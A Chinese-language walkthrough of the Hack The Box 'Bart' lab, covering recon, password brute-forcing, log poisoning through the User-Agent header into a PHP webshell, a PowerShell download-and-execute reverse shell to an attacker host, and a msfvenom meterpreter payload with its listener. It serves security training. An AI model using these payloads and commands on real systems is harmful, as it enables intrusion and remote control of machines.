# 信息搜集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.81 -oA scans/ports
···
PORT   STATE SERVICE
80/tcp open  http
···
root@kali# nmap -sT -sC -sV -O -p80 10.10.10.81 -oA scans/details
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```

## Website - TCP 80

需修改 hosts 文件通过用域名访问80端口

```
vim /etc/hosts
10.10.10.81 forum.bart.htb bart.htb
```


## 目录FUZZ

### forum.bart.htb

```
root@kali# gobuster -u http://forum.bart.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,asp,aspx,html
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://forum.bart.htb/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 204,301,302,307,200
[+] Extensions   : .txt,.asp,.aspx,.html
=====================================================
/index.html (Status: 200)
/Index.html (Status: 200)
/INDEX.html (Status: 200)
```

没有找到可用目录。

切换 wfuzz 来测试目录结构，但是还是无果。

```
wfuzz -c -w /usr/share/wordlists/dirb/big.txt http://forum.bart.htb/FUZZ --hh 158607
```

### bart.htb

```
root@kali# wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hh 158607 http://bart.htb/FUZZ
...
000067:  C=301      1 L       10 W          145 Ch        "forum"
001614:  C=301      1 L       10 W          147 Ch        "monitor"
002385:  C=301      1 L       10 W          145 Ch        "Forum"
019837:  C=301      1 L       10 W          147 Ch        "Monitor"
045240:  C=302      0 L        0 W            0 Ch        ""
217693:  C=301      1 L       10 W          147 Ch        "MONITOR"
000012:  C=302      0 L        0 W            0 Ch        "# on atleast 2 different hosts"
000013:  C=302      0 L        0 W            0 Ch        "#"
000014:  C=302      0 L        0 W            0 Ch        ""
...
```

扫描结果显示存在两个跳转目录：forum 和 monitor.

分别访问http://bart.htb/forum和http://bart.htb/monitor





forum 目录页面与 forum 子域名页面相同，那么 monitor 目录是否也与 monitor 子域名页面相同呢？带着这个疑问我们在 hosts 文件中添加域名解析.

```
vim /etc/hosts
# HTB配置
10.10.10.81 forum.bart.htb bart.htb monitor.bart.htb
```

成功访问，说明猜测正确



# 漏洞利用

## 密码爆破

在 forum.bart.htb 中存在以下用户信息。其中只有 Harvey Potter 的信息是被注释掉的，因此将其作为重点关注对象



我们可以在监控登陆界面处的找回密码来进行用户名枚举。当输入错误的用户名时出现界面如下



当输入正确的用户名时，出现email已发送的提示信息



使用 cewl 从网页上爬取字符来获取对应的字典

```
cewl -w cewl-forum.txt -e -a http://forum.bart.htb
CeWL 5.3 (Heading Upwards) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

<br/>

> CEWL (Custom Word List Generator) 是 Kali Linux 上的一种工具，用于生成定制的单词列表。CEWL 是一个 Ruby 脚本，能够从目标网站抓取文本内容并创建单词列表，通常用于渗透测试和密码破解。
> 
> CEWL 的主要功能：
> 
> - 网站抓取：从目标网站抓取文本内容，包括页面上的所有可见文本。
> 
> - 单词列表生成：根据抓取的内容生成单词列表，这些单词列表可以用于字典攻击和密码破解。
> 
> - 灵活性：可以指定抓取深度、排除特定的文件类型、使用代理等。
> 
> - 元数据提取：可以提取文档中的元数据（如 PDF、DOCX 文件）。

使用 BurpSuite 对 harvey 用户进行密码爆破



得到密码potter

使用harvey/potter进行登录监控界面


登陆后发现存在另一个子域名：internal-01.bart.htb



## website - internal-01.bart.htb

修改 hosts 文件并添加新的子域名

```
10.10.10.81 forum.bart.htb bart.htb monitor.bart.htb internal-01.bart.htb
```

这个网站只提供了一个登录页面（这是从根到的重定向）：http://internal-01.bart.htb/simple_chat/login_form.php


直接再试试harvey以及potter，发现说密码必须长度大于等于8.



## gobuster

```
root@kali# gobuster -u http://internal-01.bart.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,php
...
/index.php (Status: 302)
/log (Status: 301)
/Index.php (Status: 302)
/sql (Status: 301)
/INDEX.php (Status: 302)
/SQL (Status: 301)
/Log (Status: 301)
...
root@kali# gobuster -u http://internal-01.bart.htb/simple_chat -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html
...
/index.php (Status: 302)
/login.php (Status: 302)
/register.php (Status: 302)
/media (Status: 301)
/chat.php (Status: 302)
/css (Status: 301)
/includes (Status: 301)
/Index.php (Status: 302)
/Login.php (Status: 302)
/js (Status: 301)
/logout.php (Status: 302)
/Media (Status: 301)
/Register.php (Status: 302)
/login_form.php (Status: 200)
/Chat.php (Status: 302)
/INDEX.php (Status: 302)
/CSS (Status: 301)
/JS (Status: 301)
/Logout.php (Status: 302)
/MEDIA (Status: 301)
/Includes (Status: 301)
...
```

除了下面的爆破以外我们还可以通过另外一种方式进行登录，扫描 simple_chat 目录可发现存在注册页面register.php，虽然无法直接访问该文件。但是我们可通过以下命令注册一个新用户

```
curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=mac&passwd=password"
```

以mac/password同样能够成功登录系统



## hydra

```
hydra -l harvey -P /etc/wordlist/rockyou.txt -t 60 internal-01.bart.htb http-form-post "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login: Password"
```

知道密码是Password1



使用harvey/Password1登录系统



## js代码分析

登录进来后，尝试点击屏幕上的按钮，当点击到Log按钮时，能发现会弹窗，我们循迹去找，能发现这个Log按钮点击了话，会记录下我们的浏览器信息。



查看页面源代码发现其中存在 javascript 代码

```
function saveChat() {
	// create a serialized object and send to log_chat.php. Once done hte XHR request, alert "Done"
	var xhr = new XMLHttpRequest();
	xhr.onreadystatechange = function() {
    	if (xhr.readyState == XMLHttpRequest.DONE) {
       		alert(xhr.responseText);
    	}
	}
	xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
	xhr.send(null);
	alert("Done");
}
```

访问http://internal-01.bart.htb/log/log.txt，发现它记录了用户请求时间、参数以及user-agent等请求信息



与此同时我们再来看请求日志地址http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey，一个新的思路酝酿而成：如果指定请求参数 filename 为PHP文件并修改请求头 User-agent 为PHP脚本内容，是否能完成getshell？

使用 BurpSuite 截取点击log后的数据包，将请求参数 filename 修改为phpinfo.php，User-agent 修改为`<?php phpinfo();?>`



发送成功后访问/log/phpinfo.php，成功解析为php脚本语言，这也就意味着我们的猜测正确。

尝试获取webshell，将文件名修改为mac1.php，内容为PHP一句话木马

```
<?php system($_GET['cmd']);?>
```

访问木马地址http://internal-01.bart.htb/log/mac1.php?cmd=whoami，可成功执行命令

## 反弹shell

使用 nishang 中的 Invoke-PowerShellTcp.ps1 脚本来构造反弹

```
cp /root/Desktop/nishang/Shells/Invoke-PowerShellTcp.ps1
```

在脚本最终添加需要反弹的地址和端口

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.3 -Port 5555
```

使用 python 开启 http 服务

```
python -m SimpleHTTPServer 80
```

在本地监听5555端口

```
nc -nvlp 5555
```

在木马中执行如下命令

```
cmd=powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.3/Invoke-PowerShellTcp.ps1')
```

成功反弹shell



# 权限提升

当前的权限是不足的，我们使用winpeasany看能不能提权。先准备好winpeasany.exe，自行谷歌下载即可。然后获取资源到靶机上。准备好winpeas，使用python启动本地端口，然后让防火墙允许本地端口。

```
python3 -m http.server 8083
```

在靶机上执行

```
iwr -uri 'http://10.10.16.3:8083/winPEASany.exe' -outfile 'winpeas.exe'
```

> iwr是使用 PowerShell 下载一个文件的命令。具体来说，它使用 Invoke-WebRequest（缩写为 iwr）从指定的 URL 下载一个文件并将其保存到本地。
> 
> Invoke-WebRequest 是 PowerShell 中一个强大的 cmdlet，用于发出 HTTP 和 HTTPS 请求，并接收响应。这使得它非常适合在 PowerShell 脚本中进行 Web 操作，比如下载文件、与 REST API 交互、提交表单等。





执行winpeas.exe

```
./winpeas.exe
```

没搞定，因此我想着，还是得用msf上来，在前面获取到shell的情况下，我们用msf继续。首先生成木马，然后上传，接着执行，生成木马。

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.3 lport=4444 -f exe > shell.exe
```

上传，在获取的shell中执行

```
iwr -uri 'http://10.10.16.3:8083/shell.exe' -outfile 'shell.exe'
```



然后本地msf监听

```
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.16.3
set lport 4444
run
```



拿到了meterpreter。既然有了meterpreter，那么直接提权就好了



进入meterpreter的shell，然后找到root.txt以及user.txt.